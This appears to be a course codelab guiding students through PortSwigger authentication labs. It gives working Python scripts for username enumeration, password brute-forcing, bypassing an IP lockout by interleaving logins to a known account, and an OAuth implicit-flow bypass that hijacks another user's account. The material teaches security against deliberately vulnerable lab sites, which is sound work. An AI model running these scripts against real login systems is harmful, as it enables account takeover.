









PortSwigger provides a comprehensive set of exercises for learning about web application vulnerabilities. The company produces a tool BurpSuite that is the de facto web penetration testing tool that many security professionals rely upon as it does not require any programming experience to use.
As a CS class, one of the goals is to have you practice programming while learning web and cloud security. Since many security tools are written in Python, most of the codelabs will walk you through how to solve levels using short Python scripts that rely mostly upon packages such as requests and BeautifulSoup. It is recommended you attempt to solve all levels with Python, but you are welcome to use the community version of BurpSuite or Postman to solve the levels.
Regardless of your method, for each exercise, include a screenshot of its completion with your OdinID (e.g. wuchang) for your lab notebook. Screenshots should include the unique URL you are given for the lab (in the URL bar), the completion message (in Orange), and your OdinID as shown below.

Note: you do not need to commit code into your repository for lab exercises that have not been assigned specifically as homework.
We'll begin with a general overview of how authentication on the PortSwigger site is done via its login form. Visit the first authentication level and click "Access the lab" to instantiate it. Then, click "My account" which will redirect you to the login form at /login. Inspect the form by right-clicking the "Log in" button and then clicking "Inspect" to view the page via the browser's Developer Tools as shown below.

The form that implements the login process is shown. As it shows, a POST to the /login URI with the form parameters named username and password taken from the user's input is performed when the button is clicked.
<form class=login-form method=POST action=/login>
<label>Username</label>
<input required type=username name="username">
<label>Password</label>
<input required type=password name="password">
<button class=button type=submit> Log in </button>
</form>Note that in some levels, an additional, hidden form parameter named csrf is included. The value of the parameter is generated randomly by the server and sent in the form to prevent a particular attack called cross-site request forgery (CSRF). We will cover CSRF later. If you are using a Python script to log into the site, it will need to be modified.
With the developer console still open from inspecting the button, fIll out the form with your OdinID as your username and password and submit it. In the upper tabs of the Developer Tools interface, click on "Network", then scroll up on the requests to find the initial form submission request the browser has sent (e.g. login). Then, select "Headers" as shown below. Scroll down to see the rest of the request headers. Then, click on the "Payload" tab to see the body of the request. As the tools show, the form's POST submission includes the credentials entered.

- Take a screenshot of this for your lab notebook
username-enumeration-via-different-responses
When implementing authentication, all authentication failures should yield the exact same response from the server. If different responses are returned for when a username is incorrect compared to the password is incorrect, an adversary can quickly enumerate accounts. In this level, logging in with a bogus set of credentials gives us an error message that unfortunately gives us a hint as to whether our username is incorrect. To begin with, visit the Login page and bring up Developer Tools on it as before. On the form, enter a random string of characters into the fields and submit the form. As the output below shows, the form reveals that the username is incorrect via a <p> element with class "is-warning". This is a vulnerability that allows us to brute-force a set of usernames to identify accounts that exist. Once we know an account exists, we can then brute-force a set of passwords to login.

We first need to download the list of usernames supplied to us by the site. Visit the site to view the candidate list of usernames for the level. Then, copy the list to a plain text file as below.
auth-lab-usernames
carlos
root
admin
...
auto
autodiscoverWe can then write code that performs a brute-force attack on this list of usernames. As shown below, the code first creates a new requests.Session object. This object emulates what a real browser session would do, accumulating cookies across multiple requests. Once we successfully login, a cookie will be set in the session that will then be used on subsequent requests to authorize access.
import requests
from bs4 import BeautifulSoup
s = requests.Session()Each PortSwigger lab has a unique, randomly generated site name associated with it when you access the lab. Replace the <FMI> (e.g. Fill Me In) in the assignment for site variable with yours.
site = '<FMI>.web-security-academy.net'Given the site name, we can then use a Python f-string (formatted string) to construct the URL for the login page on the site that we want to access. An f-string serves as a template that allows you to directly include values of variables via the curly braces (e.g. {variable}). Note the use of triple single-quotes to denote the string. We use this option since there will be many strings we use throughout our exercises that will contain either a single-quote or double-quote as part of it. The triple single-quotes obviates the need to escape these characters.
login_url = f'''https://{site}/login'''We then open up the candidate username file and read all of the lines in the file into a list (lines).
lines = open("auth-lab-usernames","r").readlines()Finally, for each line, we strip out the newline to obtain a username before using it to create a Python dictionary that encodes the username and the dummy password foo. Using the session, we then POST the form to the login URL to attempt to login as the username. We then parse the response object looking for the <p> element with the 'is-warning' class to see if the username is valid.
for user in lines:
target = user.strip()
logindata = {
'username' : target,
'password' : 'foo'
}
resp = s.post(login_url, data=logindata)
soup = BeautifulSoup(resp.text,'html.parser')
if 'username' not in soup.find('p', {'class':'is-warning'}).text:
print(f'username is {target}')
breakRun the program to identify a valid username on the vulnerable site. Once you have found the username, adapt the loop above to then brute-force the user's password from a list of candidate passwords given by the site similar to what was done previously with the usernames:
auth-lab-passwords
123456
password
12345678
...
moon
moscow While in the examples above, we look for a <p> tag with an 'is-warning' class to determine if our login was successful, there are also other ways for doing so. Other options include:
- Examining
resp.textto see if "Invalid username" or "Incorrect password" appears. - Disallowing redirection on our requests.post and checking for an HTTP redirect as the login page redirects you to the home page upon successful login.
- Accessing the account's profile page (at
/my-account?id={username}') and searching for a string inresp.textindicating the user account. For example "Hello, carlos" for when we have successfully logged in withusername = 'carlos'.
Solve the level by successfully logging in and accessing the profile page of the compromised account.
s.get(f'https://{site}/my-account?id={target}')- Take a screenshot showing completion of the level that includes the level URL and your OdinId
broken-bruteforce-protection-ip-block
For this level, we already know the username of the account we want to hijack: carlos. We now need to find the matching password via brute-force. Unfortunately, the site will lock your IP address out if you get your password wrong too many times. However, we are given the legitimate credentials for another account (wiener:peter). We can reset the lockout counter that tracks incorrect login attempts if we successfully log into this account after every incorrect attempt on carlos's account. The code below logs in using the credentials given:
def login_wiener():
logindata = {
'username' : 'wiener',
'password' : 'peter'
}
resp = s.post(login_url, data=logindata)We can then add this login_wiener call to our prior password brute-forcing code to solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
username-enumeration-via-account-lock
In this lab, there is no lockout mechanism if you give the site an incorrect username. However, if you give a correct username with an incorrect password multiple times, the site will eventually lock out the particular user's account. Unfortunately, this setup allows an attacker to brute-force valid usernames. To begin with, implement a function that attempts to login as a particular username using a bogus password 'foo'.
def try_target(username):
...
logindata = {
'username' : username,
'password' : 'foo'
}
for i in range(6):
resp = s.post(login_url, data=logindata)
...
return resp.textIf the username does not exist, you will receive the "Invalid username or password" message on every attempt. However, if the username exists and we attempt to login 5 times with an incorrect password, the warning that is returned changes to "You have made too many incorrect login attempts". With this knowledge we can test each username in the candidate username list 5 times with a bogus password and then look for this message to obtain a valid username.
After obtaining the correct username, we can then see that the password checking logic also has a flaw. If we supply an incorrect password, we get the "You have made too many incorrect login attempts" message. However, if the password is correct, nothing is returned. With the appropriate credentials, we can then wait 1 minute for the account lock to expire before logging in. At that time, we can login, click "My Account" and solve the level.
- Take a screenshot showing completion of the level that includes the level URL and your OdinId
oauth-authentication-bypass-via-oauth-implicit-flow
The OAuth protocol provides a convenient way of implementing authentication as a service by allowing a third-party identity provider to authenticate a user on behalf of a client application. One of the issues with OAuth is its complexity. Unless properly implemented, OAuth can cause issues that allow it to be bypassed. In this lab, the client application supports authentication over OAuth via a social media account. The goal is to log into carlos's account using only an initial set of credentials for a different user.
Begin by bringing up the Network tab of Developer Tools. At the top, click the check box to "Preserve log". The authentication process contains many redirects that we will want to save and analyze.

Then, click on "My Account" to begin the authentication process. In Developer Tools, find the initial request to /my-account and view its status code and response headers. As the response shows, this results in a redirection to a /social-login page. This page implements a 3 second delay before redirecting the user to the OAuth authorization URL located at the identity provider's site (e.g. oauth-ace..web-security-academy.net/auth).

Click on this request to the authorization URL. Include answers to the following questions for your lab notebook.
- What is the hostname that you are redirected to on the identity provider?
- What is the client_id that is sent to the identity provider as a URL parameter?
- What is the value of the redirect_uri (e.g. the client application's callback URL) that the identity provider will send the user back to after authentication and consent is performed?
- What scopes are being requested by the client application for the user to authorize?
- What kind of response_type is being requested from the identity provider?
View the response headers of the request.
- What is the Location the user is sent to that implements the authentication login form on the identity provider's site?
View the form on the sign-in page. It has two fields for the username and password.
- What URL is the form data sent to when the user logs in as specified in the
actionattribute of the form?
With the Developer Tools still up, log in using the credentials given to you and view the network requests that are generated. Click on the form submission request and then on the "Payload" tab to see the credentials being sent.

Successful login redirects you to the consent page on the identity provider's site. The consent page asks the user to allow the client application access to the user's account information. View the page source and find the form that is submitted when the user clicks "Continue".
- What is the URL the form is sent to?
With the Developer Tools still up, click "Continue" and view the network requests. The confirmation page completes the authorization step and redirects the user to a page on the identity provider's site which will redirect the user back to the client application's callback URL with an authorization token attached. Click on this request to find the redirection that includes the token.

- What is the access token the user will relay to the client application via its OAuth callback URL?
The user has now returned to the client application with an access token obtained from the identity provider. So far, OAuth is working as intended. However, the client application has a flaw in its subsequent association of the social login identity with an account on its site. Rather than contacting the identity provider directly (via the /me API route on the identity provider) with the token given by the user to obtain the user's e-mail address, it has the user do so instead and trusts the user to relay its own identity back to the client application.
To see this, click on the second request to /me that the user makes and view its request headers. (The first one is a CORS pre-flight request).

As the request shows, the user sends its token in an Authorization: request header to /me. The OAuth site validates the token and returns the associated e-mail address. After getting its own e-mail address back from the OAuth site, the user then submits the e-mail address to the client application via a POST request to the client application's /authenticate URL. Click on this request and view the Payload that is sent.

- What is the e-mail address associated with the
wieneraccount?
Unfortunately, the user can easily modify the email address that is posted to /authenticate in an attempt to gain access to the client application as a different user. The goal of the level is to obtain access as carlos whose account is associated with the e-mail address carlos@carlos-montoya.net. By using this address in the payload above instead, we can hijack carlos's account and solve the level. We will programmatically do this via Python.
The first part of the Python script imports the packages we need including the regular expression package to help us parse responses. It then retrieves the social login page from the client application. The page contains a <meta> tag that waits 3 seconds and redirects the user to the identity provider's authorization URL. Set the site value and run the script to obtain the authorization URL that contains the login form.
import requests
from bs4 import BeautifulSoup
import re
site = '<FMI>'
s = requests.Session()
login_url = f'https://{site}/social-login'
resp = s.get(login_url)
soup = BeautifulSoup(resp.text,'html.parser')
meta = soup.find('meta', {'http-equiv':'refresh'})
print(f'Meta tag is: {meta}')
auth_url = meta['content'].split(';')[1].lstrip('url=')
print(f'Authorization URL is: {auth_url}')
oauth_site = auth_url.split('/')[2]
print(f'Identity provider site is: {oauth_site}')The next part fetches the authorization URL, parses the form to obtain the login URL, then performs the login by posting the given credentials. The identity provider then performs a redirection to the consent page automatically. The script parses the consent page to find the URL of the form that implements the "Continue" button.
resp = s.get(auth_url)
soup = BeautifulSoup(resp.text,'html.parser')
login = soup.find('form')
login_url = f"https://{oauth_site}{login['action']}"
print(f'Sign-in URL is: {login_url}')
login_data = {
'username' : 'wiener',
'password' : 'peter'
}
resp = s.post(login_url, data=login_data)
soup = BeautifulSoup(resp.text,'html.parser')
cont = soup.find('form')
cont_url = f"https://{oauth_site}{cont['action']}"
print(f'Continue URL is: {cont_url}')Next, the script will submit the form to continue and manually follow the first redirection back to the authorization URL and then the second redirection back to the callback URL back on the client application. As part of the redirection back to the callback, an authorization token is included. The script parses this token from the URL and prints it.
resp = s.post(cont_url, allow_redirects=False)
redir_url_1 = resp.headers["Location"]
print(f'First redirection back to authorization URL: {redir_url_1}')
resp = s.get(redir_url_1, allow_redirects=False)
redir_url_2 = resp.headers["Location"]
print(f'Second redirection back to callback URL of client application containing token: {redir_url_2}')
token = re.split('[#&]',redir_url_2)[1].split('=')[1]
print(f'Token in oauth-callback is {token}')When the user is redirected to the OAuth callback URL on the client application, it kicks off the entire, vulnerable implicit flow. The Python code below retrieves the callback URL given in the redirection. Run it and examine the Javascript code that is returned.
resp = s.get(redir_url_2)
print(f'Callback URL response returns: {resp.text}')The implicit flow is implemented within this Javascript code. Answer the questions below for your lab notebook.
- What is the function of the first two
constlines? - What content is being retrieved from the identity provider in the first
fetch? - What 3 values are being sent to the client application in the second
fetch? - What location is the user redirected to at the end of the implicit flow?
We can now subvert the flow of requests shown in the previous step to hijack carlos's account. We begin by performing the first fetch to the identity provider, including the token in an Authorization: Bearer header. This returns the e-mail address of the account we logged in with.
resp = s.get(redir_url_2)
print(f'Javascript contains: {resp.text}')
me_url = f'https://{oauth_site}/me'
me_headers = {
'Authorization' : f'Bearer {token}',
'Content-Type' : 'application/json'
}
resp = s.get(me_url, headers=me_headers)
print(f'/me gets user information: {resp.text}')Rather than use the information we obtain from this request for the subsequent request to the client application's /authenticate end-point. We substitute carlos's e-mail address instead and solve the level.
authenticate_url = f'https://{site}/authenticate'
authenticate_data = {
'email' : 'carlos@carlos-montoya.net',
'username' : 'carlos',
'token' : token
}
authenticate_headers = {
'Accept' : 'application/json',
'Content-Type' : 'application/json'
}
resp = s.post(authenticate_url, json=authenticate_data, headers=authenticate_headers)
print(resp.text)- Take a screenshot showing completion of the level that includes the level URL and your OdinId